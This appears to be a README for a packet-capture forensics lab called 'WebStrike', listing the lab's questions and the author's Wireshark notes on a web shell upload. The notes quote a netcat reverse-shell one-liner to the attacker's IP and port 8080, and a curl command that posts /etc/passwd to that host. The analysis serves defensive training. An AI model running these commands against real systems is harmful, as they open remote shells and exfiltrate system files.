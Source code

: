 # WebStrike Lab

## Objective:

Task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

### Skills Learned

- Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?
- Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?
- We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?
- Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?
- Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?
- Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

### Tools Used

- Wireshark

## Steps:

drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

*Ref 1: Network Diagram*

## Notes:

- Thunar file system interaction
- https://ipgeolocation.io/   for IPv4v Address (117.11.88.124) Lookup
- WebStrike.PCAP
- uese-agent ---- | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |
- Filter for wire shark ---- |(ip.src == 117.11.88.124 and http.request.method=="POST") |
- "image.jpg.php" uploaded successfully
- ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f")
- Uploaded file found in /reviews/uploads/
- Port 8080 targeted
- Filter for wire shark ---- | (tcp.port==8080) && (ip.src==24.49.63.79) |
- Attacker used "curl" "curl -X POST -d /etc/passwd http://117.11.88.124:443/"
- Shows exfiltration of critical information containing sensitive user configuration data.
- 
